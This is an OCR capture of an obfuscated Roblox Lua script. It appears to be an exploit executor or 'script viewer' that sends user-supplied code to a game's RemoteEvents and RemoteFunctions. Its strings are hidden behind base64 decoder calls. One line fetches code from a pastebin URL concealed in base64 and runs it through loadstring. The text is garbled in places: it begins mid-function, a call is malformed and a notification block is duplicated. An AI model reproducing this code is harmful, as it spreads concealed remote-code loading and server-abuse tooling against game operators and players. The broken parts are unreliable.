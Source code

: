         -- IY
        if func then
            func()
            print(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('sgulAvQXTgiIJelUplRkRbOHBMeghyGdaLwHLCVsZNlGdYTOGOEcOrtU2NyaXB0IGV4ZWN1dGVkIHN1Y2Nlc3NmdWxseS4='))
        else
            warn(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('LwYxVUEBZjnKyQyPmhOZgROrzZxICVMjAezNrhHWxRoKNbxIHbRhHUlZXJyb3IgZXhlY3V0aW5nIHNjcmlwdCA6IA==') .. err)
        end
    else
        warn(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('xbocHSkBvtfZCMjYfeLbXplwxUwKCDzWpqxqUekYvHTHMjUCnZRPShKVGhlcmUgaXMgbm8gc2NyaXB0IHRvIEV4ZWN1dGUu'))
    end
end)
    -- Add your script execution logic here
    print(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('RErNbZfjihBJDsdQPFYRAxryGgstVhWvcgljDRKQZnxoFipVyaTDlSzRXhlY3V0aW5nIHNjcmlwdDo='), TextBox.Text)
local xbox = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('MvIZGIhMTULOagydTmKBzQzfUKRgDkCZwettHxQTLaqixFXKcrtZrwoU291bmQ='))
xbox.Parent = game:GetService(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('xSNgQAcZPSSYVozbUPpDWIdhrHBFszxHLASFSstfgfrxpyWbsURMUtwU291bmRTZXJ2aWNl'))
xbox.SoundId = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('kjYSHtOfuJOiyVgsDcabPTtnacNouKwbQnEbXvCwaGEzBbWWSSHJwKmcmJ4YXNzZXRpZDovLzMwMjMyMzc5OTM=')
xbox.Volume = 5
xbox.Name = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('BFWkynpwEuwPaEqnmYckbhqueJfyQTaIClUwbNELazWwMRXdEOUrQLhU291bmQ=')
xbox:Play()

local NotificationBindable = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('xyAzDtvNRRzDDCVWxtLKxhBKOodEZAqEnldUSoshMXRFQVhFtuhysVBQmluZGFibGVGdW5jdGlvbg=='))

game:GetService(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('EOkBKlNixzYNcOCbhdASdEmPfhrxxShJGmPjPHNFzOMUeSFUhmZIwEIU3RhcnRlckd1aQ==')):SetCore(
	YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('qNQmnWCapNBftNEKOFuqDqokwFStkinjlhRJnCBAPvvbIUQgkmurFyxU2VuZE5vdGlmaWNhdGlvbg=='),
game:GetService(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('YWebdCTQvFFwskNbtClGyVyYvvnQDucPWpuCHwsaecKazSYArNWzkQxU3RhcnRlckd1aQ==')):SetCore(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('uIOmPAPvOZIXBxXwxKshrXtxwXHQyGqzoTwgmxsPUDTJknjdKdcUZlwU2VuZE5vdGlmaWNhdGlvbg=='),
	Title = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('EpuzgAfyQwBUyHZqqrJYBKeUoaLHumBOQrwEiTfnHlrvmSwlMEzeAepR1VJ');
	Text = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('lsvcTCbXxrxQejqoRtaekYtcEYEgwLjyhLvfLNFrdgSfkkFxyzWtiWnR1VJLCB2ZXJzaW9uIDEuMC4gc2NyaXB0IHZpZXdlci4=');
	Duration = 6; 
	Button1 = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('eWUzmToKusEYOLwrQVMZLvnvewZPAOUiZAjsdsJjjkULEbfxAsWaexuT2s=');
    Button2 = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('rDDlstjuaLwWOevLVJmypRIqzNJrivZVsYkwbFdupeaQBelpfcUpEPZbm8=');
})
loadstring.game(httpGet(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('jfOEYyEnAYMMPOQSuWJcUpTeQDdcTmVqwfUuRivCaKZHEIJGAJHNctJaHR0cHM6Ly9wYXN0ZWJpbi5jb20veVE2TnF1Vmk='))();
--/REMOTES\--
if r:IsA(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('ufRPpAMMIdburkjwwGPRUQPWsmPXglixQEThBrOuoLFanBVKIwCaYKZUmVtb3RlRXZlbnQ=')) then
        return task.spawn(r.FireServer, r, ...);
    elseif r:IsA(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('NjmOKmTMnmdsoQrxjxvvTjGjSvCNRvXYpOlqvSpTxqlahQrAcNvAIHYUmVtb3RlRnVuY3Rpb24=')) then
        return task.spawn(r.InvokeServer, r, ...);
    end
end;
--/CODE\--
runRemote(r, src);
    end,
    Execute = function(g, Debug_code)
        return runRemote(g.b, Debug_code);